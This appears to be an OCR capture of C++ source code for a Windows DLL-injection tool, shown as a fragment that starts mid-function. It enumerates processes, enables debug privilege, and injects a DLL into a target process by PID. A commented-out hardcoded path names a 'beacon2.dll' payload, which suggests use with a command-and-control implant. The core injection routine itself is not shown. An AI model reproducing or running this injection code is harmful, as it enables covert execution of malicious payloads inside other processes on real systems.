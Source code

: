```c

	if (dllBaseAddr != NULL)
		VirtualFreeEx(hProcess, dllBaseAddr, 0, MEM_RELEASE);

	if (hRemoteThread != NULL)
		CloseHandle(hRemoteThread);

	if (hProcess != NULL)
		CloseHandle(hProcess);

	return TRUE;
}

void GetProcessInfo()
{
	HANDLE hSnapshot;
	PROCESSENTRY32 ProcessEntry;
	ProcessEntry.dwSize = sizeof(PROCESSENTRY32);
	hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	if (Process32First(hSnapshot, &ProcessEntry))
	{
		do
		{
			cout << ProcessEntry.th32ProcessID << "\t" << ProcessEntry.szExeFile << "\n";
		} while (Process32Next(hSnapshot, &ProcessEntry));
	}
	CloseHandle(hSnapshot);
	printf("================================\n");
}


int main(int argc, char* argv[])
{
	GetProcessInfo();

	HANDLE hCurrentProcess = GetCurrentProcess();

	BOOL Pri = EnbalePrivileges(hCurrentProcess, SE_DEBUG_NAME);
	if (Pri==FALSE)
	{
		printf("EnbalePrivileges fauile\n");
	}

	/**/
	if (argc != 3)
	{
		printf("Usage:\n");
		printf("%s <PID> <Dll Full Path>\n", argv[0]);
		return 0;
	}
	

	const char* dllPath = "C:\\Users\\drop\\Desktop\\beacon2.dll";
	DWORD PID = 348;

	BOOL bRet = InjectDll(atoi(argv[1]), argv[2]);
	//BOOL bRet = InjectDll(PID, dllPath);
	if (FALSE == bRet)
	{
		printf("Inject Dll Error.\n");
	}
	return 0;
```